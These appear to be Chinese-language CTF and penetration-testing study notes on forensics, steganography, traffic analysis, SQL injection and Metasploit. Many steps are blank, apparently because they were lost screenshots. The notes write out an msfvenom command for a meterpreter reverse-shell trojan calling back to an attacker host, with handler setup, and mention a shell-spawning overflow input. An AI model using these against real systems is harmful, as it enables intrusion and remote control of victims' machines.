








# 概述

网络流量（抓包软件：wireshark）

**Web安全**：sql注入（sql查询）、xss（链接脚本自动运行自动盗取网站cookie）、代码审计（php代码）。

reverse：反编译，对安卓开发语言包比较了解。（用到很多语言）

PWN：最难，先看懂别人写的解法（wp）

**MISC**：杂项，最简单，调查取证，最好入门，多刷题就可以，不需要很多知识储备

**密码学**：编码、加密（凯撒）、摘要（MD5，SHA1，SHA2）

移动安全：安卓，IOS系统理解，逆向工程。

# 杂项

## 文件操作与隐写

1. file命令：

   当文件没有后缀名或者有后缀名但是没法正常打开：

   `file myheart`

   winhex:16进制的编译器，Windows下通过头文件信息判断文件类型。

   由notepad打开，第一行前四个

   文件头部

   文件头缺失

文件分离：分离多个合并文件。可能key在其他文件里面

`binwalk -e file`：自动剥离文件 + -e

`foremost file -o dir`将分离文件分离到dir

`dd`文件被分为碎片，难以自动剥离，这时候需要手动剥离

> 加载15个字段，跳过前五个字段输出

可以结合binwalk来做这个:根据检测到的不同区域去16进制文件里面找到对应的内容，根据前4个内容确定文件类型，然后利用这个指令分离文件

手动分离：010editor右键select save

导入16进制文件，import hex，通过文件头判断文件类型，然后另存保存。

文件合并：

1. linux：

2. 文件隐写：crtl+f

## 图片隐写术：

属性、GPS，搜索经度纬度

`exiftool file`

stegslove-》analyse:两张图片信息基本相同时候，按照一定的图片顺序做or，xor等操作，彩色二维码取反

LSB： 

stegsolve-》analyse-》data extract（打开方法，进入c判programsfile文件夹然后cmd，java -jar stegsolve.jar）

或者自动化提取：**zsteg**

**webstego4**：一般针对.bmp/pdf

python 脚本

**tweakpng：**

bftools：

针对jp图像的加密：

stegdetect:

有时需要对二维码进行取反：甚至先取反再用tegsolve

2. 压缩文件处理

   1. 伪加密：搜索16进制504B102，找到文件头第九第十个字符，设置为0000。rar找第24个字节，该字节尾数为4表示加密，0表示无加密，将尾数改为0即可破解伪加密。

   2. 暴力破解：archpr：

      

   3. 明文攻击：

      压缩包文件结构：

      

      红色框出来的部分是文件块，文件块的第三个字节为快类型，也叫头类型，这里是7A，不合法，要改成74才会解压出另一个文件

      

## 流量取证技术

wireshark:

数据是有来有回的，有source和destination：

- ip.src eq x.x.x.x or ip.dst eq x.x.x.x过滤IP

- 

- 去了解一下协议和对应的端口：交互数据的接口

- 过滤协议

  tcp/udp/arp/icmp/http/ftp/dns/ip

- 包长度过滤

  

- http模式过滤（不同请求方法）

  

  contain（有没有某个字段）

追踪流：在弹出的窗口里可能藏有key

数据提取：

- 无限流量包：连WiFi的包就是这个包，握手包，带着WiFi密码。考点是破解这个包的密码。

  工具：aircrack-ng检查cap包

  

  BSSID：路由器漫游地址

  ESSID：WifiID

  密码方式：WEP（简单）WAP（难）

  加上字典pass.txt

  

  

USB流量：键盘、鼠标流量，LeftOver Capture这一列。不同的按键对应不同的字节

1. 键盘流量：

解析对应关系的脚本：

如何提取LeftOver Capture Data：

1. 文件->导出分组解析结果->为csv，导出保存成一个.csv文件（就是表格，excle）
2. wireshark的安装包目录下tshark，可以将leftover数据单独复制出来。

2. 鼠标流量

   鼠标流量是连续的

   btn_flag需要自行调整，最后跑完脚本得到的是有正有负的坐标。再根据坐标画出来轨迹。

   

3. https流量包文件分析：

   需要导入key才能看到原始的http流量。再追踪流就能看到flag。

   https=http+tls

   如何导入key？

## 密码学：

base64：每3个8位的bit换成4个6位的前面补零。一般结尾会有一到两个等号。

url编码，对中文地址编码，先得到字符的asc码的十六机制，不过需要再前面加上%

Unicode：支持16位，特点是出现\u

JS混淆：JavaScript 

 

SSH：

进入靶场考虑

1. 暴力破解

2. 私钥泄露（密码、用户名）

3. 对于开放http服务的80端口：

   - 
   - 探测信息尤其注意robort.txt

   

SSH私钥泄露：

进入浏览器之后搜索栏上面假如隐藏文件能进入这个文件。

SSH：使远程计算机通过ssh登录到主机从而进行操作。

搜索栏假如id_rsa下载文件

登入需要密码。

登入之后：

输入命令id查看是否是root

但是登入之后，没有办法拥有root权限

cat /etc/crontab

反弹shell：

第一行不加参数也可以，默认值。

缓存区溢出漏洞获取权限：

输入simonAAAAAAAAAAAAAA/bin/sh将溢出的给到了Program

暴力破解：

优化对话：

su这个命令是切换到root用户。

让终端能显示用户名和目录

  show options指令帮助看参数是否·设置完全

# Web

SQL注入：

信息探测：

探测敏感信息之后用浏览器打开。

漏洞扫描：owasp-zap，点击attack后会扫描之后会有旗帜代表发现的漏洞：

这里存在sql injection 漏洞，可以直接获取服务器权限。

观察到sqlmap...injection漏洞，并且有三种注入类型。

available database 下面就是可用的数据库

然后使用-D第一个命令，

观察到Table之后使用第一个含有T的命令，

再用下一个命令获取login和password那两列

进入系统之后，生成反弹shell

先是执行最下面的那个命令l

把黄色部分写入一个php文件

gedit shell.php

然后打开msfconsole

# Metasploit

进入msfconsole

1. 使用模块

   search ms17_010(wins 漏洞编号)

2. 配置：

   exploit 漏洞攻击脚本

   payload 攻击载荷

   

3. 运行模块

4. meterpreter：远程控制别人。

   生成一个木马程序：msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.31.130(kali的ip) lport=1234（随便设置）-f exe -o demo.exe

   把这个exe文件给到靶方，

   KAli回到msfconsole：

   use exploit/multi/handler

   set payload windows/x64/meterpreter/reverse_tcp 

   set lhost

   set lport

   一旦运行了exe，那么成功劫持，可以用一些操作控制对方电脑。
   
   常用指令：
   
   

# Http

URL传参：https://example.com/path?key1=value1&key2=value2&key3=value3

- `?` 是分隔符，表示URL路径和参数的开始。
- `key1=value1` 是一个键值对，`key1` 是参数名，`value1` 是参数值。
- `&` 用于分隔多个参数。
- 